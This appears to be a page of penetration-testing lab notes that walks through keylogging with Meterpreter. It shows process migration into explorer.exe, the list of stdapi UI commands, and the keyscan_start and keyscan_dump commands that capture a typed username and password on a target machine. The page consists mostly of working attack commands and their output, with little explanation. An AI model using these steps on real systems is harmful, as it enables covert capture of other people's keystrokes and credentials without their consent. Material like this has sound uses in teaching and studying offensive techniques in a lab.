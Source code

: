 ### Keylogging <a href="#keylogging" id="keylogging"></a>

```bash
meterpreter > pgrep explorer
    2508
    
meterpreter > migrate 2508
    [*] Migrating from 2896 to 2508...
    [*] Migration completed successfully.

meterpreter > help
    Stdapi: User interface Commands
    ===============================
    
        Command        Description
        -------        -----------
        enumdesktops   List all accessible desktops and window stations
        getdesktop     Get the current meterpreter desktop
        idletime       Returns the number of seconds the remote user has been idle
        keyboard_send  Send keystrokes
        keyevent       Send key events
        keyscan_dump   Dump the keystroke buffer
        keyscan_start  Start capturing keystrokes
        keyscan_stop   Stop capturing keystrokes
        mouse          Send mouse events
        screenshare    Watch the remote user's desktop in real time
        screenshot     Grab a screenshot of the interactive desktop
        setdesktop     Change the meterpreters current desktop
        uictl          Control some of the user interface components
```

* Open a `Notepad` session on the Target machine.
* On the Attacker machine, start the keystroke capture

```bash
meterpreter > keyscan_start 
    Starting the keystroke sniffer ...

meterpreter > keyscan_dump 
    Dumping captured keystrokes...
    <Caps Lock>U<Caps Lock>ser<Shift>:admin<CR>
    <Caps Lock>P<Caps Lock>assword<Shift>:12345
```

<figure><img src="../../../../../.gitbook/assets/image (38) (1).png" alt=""><figcaption></figcaption></figure>
